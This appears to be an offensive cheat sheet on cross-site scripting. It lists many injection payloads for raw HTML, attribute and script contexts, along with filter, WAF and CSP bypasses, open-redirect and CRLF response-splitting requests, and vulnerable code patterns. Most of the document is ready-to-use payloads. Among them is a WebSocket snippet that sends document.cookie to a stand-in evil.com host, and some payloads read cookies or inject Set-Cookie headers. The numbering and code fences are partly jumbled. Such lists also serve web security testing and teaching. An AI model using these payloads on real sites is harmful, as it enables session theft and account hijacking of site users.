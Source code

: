 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses
Cross-Site Scripting (XSS) is a widespread vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This guide covers the types of XSS, methodologies for detection and exploitation, contexts of injection, and advanced techniques for bypassing protections.

1. Introduction to XSS
XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

1.1 Types of XSS
Stored XSS: The malicious script is permanently stored on the target server, such as in a database or comment field.
Reflected XSS: The malicious script is reflected off a web server, typically via a URL query parameter.
DOM-Based XSS: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

2. Methodology for Detecting XSS
2.1 Identify Injection Points
   
Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

# Determine Reflection Context

Raw HTML: Can you create new HTML tags or use attributes/events that support JavaScript?


Inside HTML Tag: Can you exit to raw HTML or create events/attributes to execute JavaScript?


Inside JavaScript Code: Can you escape the <script> tag or string context to execute arbitrary JavaScript?


4. Contexts for XSS Injection
Raw HTML Context
When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:
```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```
3.2 Inside HTML Tag Attributes
If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick: " autofocus onfocus=alert(1) x="
JavaScript Protocol: If within href, use javascript:: href="javascript:alert(1)"
3.3 Inside JavaScript Code
If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String: "; alert(1); "
Template Literals: If input is in a template literal: `${alert(1)}`
4. Advanced Techniques and Bypasses
4.1 Content Security Policy (CSP) Bypass
CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.


4.2 Polyglot XSS
Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

4.2.1 Example Polyglot Payload
```
"><svg onload=alert(1)><script>alert(1)</script>
4.3 Dangling Markup - HTML Scriptless Injection
```
If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

4.3.1 Example Dangling Markup
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```
4.4 JSON-based XSS
When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

4.4.1 Example JSON-based XSS
```
{"name": "<img src=x onerror=alert(1)> "}
```
4.5 Bypassing Filters
Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```
4.6 Using HTML Entities
Encoding the payload using HTML entities to bypass filters that block certain characters.

4.6.1 Example HTML Entities
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```
4.7 Null Byte Injection
Using null bytes to bypass filters or terminate strings early.

4.7.1 Example Null Byte Injection
```
<img src="x" onerror="alert(1)";%00" src="y">
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
<iframe src="javascript:alert(1)%00"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%00"></iframe>
<a href="javascript:alert(1)%00">Click me</a>
<form action="javascript:alert(1)%00" method="post"><input type="submit"></form>
<img src="x" onerror="alert(1)";%00" src="y">
```
4.8 Case Variation
Altering the case of HTML tags and attributes to bypass case-sensitive filters.

Obfuscation Techniques
```
// Obfuscation with white spaces
<scr\0ipt>alert(1)</scr\0ipt>

// Breaking up keywords
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>

// Using concatenation
<scr\+ipt>alert(1)</scr\+ipt>
```

Unexpected Input Variations
```
// Inline event handlers
<svg><a href="javascript:alert(1)">click</a></svg>

// Injecting into attributes
<input type="text" value="``><svg onload=alert(1)>">
```

4.8.1 Example Case Variation
```
<Svg OnloAd=alert(1)>
```
4.9 Using Backticks in JavaScript
Bypassing filters by using backticks in JavaScript for template literals.

4.9.1 Example Using Backticks
```
<script>let a = `alert(1)`</script>
```
4.10 Chained XSS
Combining multiple injection points to achieve a successful XSS attack.

4.10.1 Example Chained XSS
Injecting part of the payload in one input and another part in a different input to form a complete attack.

5. Exploiting DOM XSS
DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

5.1 Finding and Exploiting DOM XSS
Identify Sinks: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
Control Flow: Understand how user input flows through the application to these sinks.
Payload Construction: Craft payloads that exploit these sinks.
5.1.1 Example DOM XSS Payload
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```
6. Debugging Client-Side JavaScript
When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

6.1 Tools for Debugging
Browser Developer Tools: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.
7. Mitigations and Best Practices
7.1 Input Validation and Sanitization
Ensure all user inputs are validated and sanitized before being processed or rendered.

Bypassing Filters with HTML Entities
```
<svg onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<img src=x onerror=& #x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

Bypassing Filters with Null Bytes
Null byte injection can terminate strings early or bypass certain filters by injecting null characters.

```
<img src="x" onerror="alert(1)";%00" src="y">
```

# Open Redirect Exploits

Basic Open Redirect to XSS

// Basic payload, JavaScript code is executed after "javascript:"
javascript:alert(1)

Bypassing "javascript" Word Filter with CRLF
```
java%0d%0ascript%0d%0a:alert(0)
```
Abusing Bad Subdomain Filter
```
javascript://sub.domain.com/%0Aalert(1)
```

JavaScript with "://"
```
javascript://%250Aalert(1)
```

```
// Variation with query
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```
Other Variations
```
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
Open Redirect by Uploading SVG Files
Using SVG files to perform open redirects can be effective, especially when the application allows file uploads.
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

Client-Side Prototype Pollution to XSS
Prototype pollution in JavaScript occurs when an attacker can modify the properties of Object.prototype. This can lead to XSS if these properties are used in sensitive operations.

// Prototype pollution payload
Object.prototype.polluted = 'polluted';
If the application uses a polluted object property in a dangerous way, this can lead to XSS:

```
var obj = {};
alert(obj.polluted); // Outputs: polluted
```

# How to Bypass Internal Filtering for XSS
Bypassing internal filtering mechanisms such as Web Application Firewalls (WAFs) and input sanitization requires a deep understanding of how these filters operate and the techniques that can be used to circumvent them. This guide provides an in-depth look at various methods to bypass internal filtering mechanisms for XSS attacks.

Internal filters and WAFs are designed to prevent malicious inputs by inspecting, sanitizing, or blocking suspicious content. Common filtering techniques include:

Blacklisting: Blocking known malicious patterns or keywords.
Whitelisting: Allowing only specific safe inputs.
Encoding: Converting special characters to their HTML entities.
Normalization: Simplifying input to a consistent form for easier inspection.

Techniques for Bypassing Filters
2.1 Encoding and Decoding
Using various encoding methods can help bypass filters that don't decode inputs before inspection.

URL Encoding
```
%3Cscript%3Ealert(1)%3C/script%3E
```
Double URL Encoding
```
%253Cscript%253Ealert(1)%253C/script%253E
```
HTML Entities
```
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```
Unicode Encoding
```
\u003Cscript\u003Ealert(1)\u003C/script\u003E
```
Case Variation
Altering the case of HTML tags and attributes can bypass filters that are case-sensitive.
```
<ScRiPt>alert(1)</ScRiPt>
<Img sRc=x OnErRoR=alert(1)>
```
Comment Insertion
Inserting comments within the payload can break up patterns that the filter is looking for.
```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Using Null Bytes
Null byte injection can terminate strings early or bypass certain filters.
```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Breaking Up Keywords
```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
```
Using Concatenation
```
<scr\+ipt>alert(1)</scr\+ipt>
```
Leveraging Browser Parsing Quirks
Different browsers may interpret malformed HTML or JavaScript in ways that can be exploited.
```
<scr<script>ipt>alert(1)</scr</script>ipt>
```
Incomplete Tags
```
<svg><a href="javascript:alert(1)">click</a></svg>
```
Inserting White Spaces and Line Breaks
Using white spaces and line breaks to bypass filters.

```
<scr\0ipt>alert(1)</scr\0ipt>
<svg
onload=alert(1)>
```
Combining Techniques
Combining multiple bypass techniques to create a payload that evades detection.

```
<scr\0ipt>alert(1)</scr\0ipt>
%3Cscript%3E%61lert(1)%3C/script%3E
<scr\+ipt>alert(1)%00</scr\+ipt>
```
3. Real-World Examples
3.1 URL Encoding and Decoding
Using URL encoding to bypass filters that do not decode inputs before inspection.


Combining case variation and comment insertion to bypass case-sensitive filters.

```
<ScRiPt>alert(1)</ScRiPt>
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Null Byte Injection
Using null bytes to terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Obfuscation and Concatenation
Using obfuscation and concatenation to avoid detection by filters.

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
<scr\+ipt>alert(1)</scr\+ipt>
```


# Understanding CSP
CSP works by allowing website owners to define a whitelist of trusted sources for content such as scripts, styles, images, and more. This is done through the Content-Security-Policy HTTP header. Key directives include:

default-src: The default policy for loading content types.
script-src: Defines trusted sources for JavaScript.
style-src: Defines trusted sources for CSS.
img-src: Defines trusted sources for images.
2. Common CSP Misconfigurations
Misconfigured CSP policies are often the root cause of bypasses. Common issues include:

Allowing unsafe-inline or unsafe-eval in script-src.
Overly permissive whitelists.
Failing to cover all possible directives, leaving certain content types unprotected.

# Bypassing CSP

JSONP (JSON with Padding) allows data to be fetched from a different domain using a <script> tag. If the JSONP endpoint is not properly secured, it can be exploited to execute arbitrary JavaScript.

Overly permissive CSP headers, such as those allowing unsafe-inline, can be exploited to run inline scripts directly.
```
<script nonce="random-nonce">alert(1)</script>
```

Inline Script Allowances
When unsafe-inline is allowed, or if there is an oversight allowing inline scripts, attackers can inject their payload directly into inline scripts.

Data URIs
Data URIs can sometimes be used to bypass CSP if they are allowed in the policy.
```
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
```

# Exploiting Script Gadgets
Script gadgets are existing pieces of code on a website that can be exploited to perform unintended actions. This is particularly effective if unsafe-inline or unsafe-eval is used.

Exploitation
Find an existing inline script that can be manipulated.
Inject code that modifies the behavior of the script.

Content Injection via Whitelisted CDNs
If a Content Delivery Network (CDN) is whitelisted, and the attacker can upload content to that CDN, they can inject malicious scripts.

Exploitation
Upload a malicious script to cdn.example.com.
Include the script on the target site:
```
<script src="https://cdn.example.com/malicious.js"></script>
```

Subresource Integrity (SRI) Bypass
SRI is used to ensure that resources hosted on third-party servers have not been tampered with. However, if SRI is not used properly, it can be bypassed.

Exploitation
Host a script on a trusted domain without SRI.
Include the script:
```
<script src="https://trusted.com/script.js"></script>
```
Mutation XSS
Mutation XSS exploits the way browsers handle dynamic content changes. If CSP allows unsafe-inline, attackers can inject payloads that mutate the DOM in unexpected ways.

Exploitation:
```
<div><img src=x onerror="alert(1)"></div>
<script>
document.querySelector('div').innerHTML = '<img src=x onerror="alert(1)">';
</script>
```

Using WebSockets
WebSockets can sometimes be used to exfiltrate data or execute JavaScript if allowed by CSP.

Exploitation:
```
var ws = new WebSocket("wss://evil.com/socket");
ws.onopen = function() {
  ws.send(document.cookie);
};
```

CSP Nonce Reuse
If the CSP nonce is reused or predictable, it can be exploited to run malicious scripts.

Exploitation
Predict or capture the nonce value.
Use the nonce to execute a script:

```
<script nonce="captured-nonce">alert(1)</script>
```

Example of a Secure CSP Header
Here’s an example of a secure CSP header that mitigates most XSS attacks:
```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'; style-src 'self' 'nonce-random-nonce'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```
# CRLF Injection to XSS

CRLF injection (Carriage Return Line Feed) is a vulnerability that occurs when an attacker can inject CRLF characters into an application, typically resulting in the manipulation of HTTP headers or log files. This guide explores how CRLF injection can be exploited to perform XSS attacks.

1. Understanding CRLF Injection
CRLF injection vulnerabilities occur when an application improperly handles user input, allowing the injection of CR (Carriage Return, \r, %0d) and LF (Line Feed, \n, %0a) characters. This can lead to:

Manipulation of HTTP headers
Injection into logs
HTTP response splitting

Basic CRLF Injection
CRLF injection can be used to inject new headers or modify the existing ones by breaking the intended structure of the HTTP response.

GET /vulnerable.php?param=value%0d%0aInjected-Header: injected_value HTTP/1.1

In this example, Injected-Header: injected_value would be treated as a new header.

CRLF Injection to XSS
By leveraging CRLF injection, an attacker can inject malicious content, including scripts, into the HTTP response, potentially leading to XSS.

3.1 Injecting Scripts via HTTP Response Splitting
HTTP response splitting occurs when CRLF injection allows the creation of additional HTTP responses. This can be exploited to insert scripts directly into the response body.

Example
Assume a vulnerable application includes user input directly in HTTP headers. An attacker can inject CRLF characters followed by a script tag.
GET /vulnerable.php?param=value%0d%0aContent-Length:%2023%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1


URL Redirection and CRLF Injection
Another approach is to use CRLF injection to manipulate redirection headers and include XSS payloads.

Consider an application that redirects users based on input parameters. An attacker can inject CRLF characters to terminate the location header and include a script.
GET /redirect.php?url=http://example.com%0d%0aLocation:%20http://attacker.com/xss.html HTTP/1.1

Log Injection
CRLF injection can also be used to manipulate server logs, potentially leading to XSS when logs are viewed in an insecure application.

An attacker injects a script into log entries:
GET /vulnerable.php?param=value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

Advanced CRLF Injection Techniques
4.1 Double CRLF Injection
Using multiple CRLF sequences to break the HTTP response in more complex scenarios.

GET /vulnerable.php?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

Hybrid Injection
Combining CRLF injection with other techniques such as parameter pollution or path traversal to enhance the attack.

GET /vulnerable.php?param1=value1&param2=value2%0d%0aSet-Cookie:%20session=malicious_value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

CRLF injection is a powerful technique that can lead to severe security vulnerabilities, including XSS. Understanding how to exploit and mitigate CRLF injection is crucial for securing web applications. By employing proper input validation, header handling, and security policies, developers can protect their applications from these attacks.

# Other Vulnerabilities leading to XSS
PDF Generation Vulnerabilities
 Dynamic PDF Content Injection
When generating PDFs dynamically from user input, malicious content can lead to XSS.
```
// Vulnerable PDF generation code
$pdf->writeHTML($_POST['user_input']);
```

XML Injection
XML data that includes user input can be manipulated to include malicious scripts.
```
<!-- Vulnerable XML data -->
<user>
  <name><?php echo $_POST['name']; ?></name>
</user>
```

XPath Injection Leading to XSS
XPath injection vulnerabilities can be exploited to retrieve sensitive data and potentially inject XSS.

```
// Vulnerable XPath query
$query = "//user[name/text()='" . $_POST['name'] . "']";
$result = $xpath->query($query);
```

Unsafe Use of innerHTML
Using innerHTML to insert user input into the DOM can lead to XSS.
```
document.getElementById('output').innerHTML = user_input;
```

Exploiting URL Fragments
User-controlled fragments in URLs can be manipulated to inject scripts.
```
// Vulnerable code using location.hash
var fragment = location.hash.substring(1);
document.getElementById('output').innerHTML = fragment;

// If an attacker controls the URL
http://example.com#<img src=x onerror=alert(1)>
```

Misconfigured Content-Type Headers
Misconfigured Content-Type headers can cause browsers to interpret data as executable scripts.
```
// Response with wrong Content-Type
Content-Type: text/html

{"user": "<script>alert(1)</script>"}
```

Injecting Malicious Frames
Injecting malicious content into iframe sources can lead to XSS.
```
<iframe src="<?php echo $_GET['page']; ?>"></iframe>

// if an attacker submits
http://example.com/page.php?page=http://malicious.com
```

Exploiting WebAssembly
WebAssembly (Wasm) code that includes user input can be manipulated to execute malicious scripts.
```
WebAssembly.instantiateStreaming(fetch('module.wasm'), { env: { userInput: user_input } });
```
